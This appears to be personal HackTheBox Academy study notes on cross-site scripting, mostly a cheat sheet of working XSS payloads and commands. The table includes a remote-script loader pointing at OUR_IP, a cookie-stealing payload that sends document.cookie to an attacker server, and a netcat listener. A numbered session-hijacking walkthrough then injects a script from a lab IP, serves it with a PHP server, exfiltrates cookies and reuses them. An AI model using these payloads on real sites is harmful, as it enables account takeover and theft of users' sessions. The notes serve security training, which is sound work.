



_____
# Automated Discovery
[XSS Strike](https://github.com/s0md3v/XSStrike)
[Brute XSS](https://github.com/rajeshmajumdar/BruteXSS)
[XSSer](https://github.com/epsylon/xsser)
# Payloads
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
[PayloadBox](https://github.com/payloadbox/xss-payload-list)
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| ``                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
|                                                                                               |                                   |

## Session Hijacking

1. Locate XSS

```html
"><script src="http://10.10.15.213"></script>
```



php server

```bash
sudo php -S 0.0.0.0:80
```

2. grab cookie

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc


```javascript
new Image().src='http://10.10.15.213/index.php?c='+document.cookie;
```

write that into script.js

3. load script.js

```html
"><script src="http://10.10.15.213/script.js"></script>
```



4. modify cookie


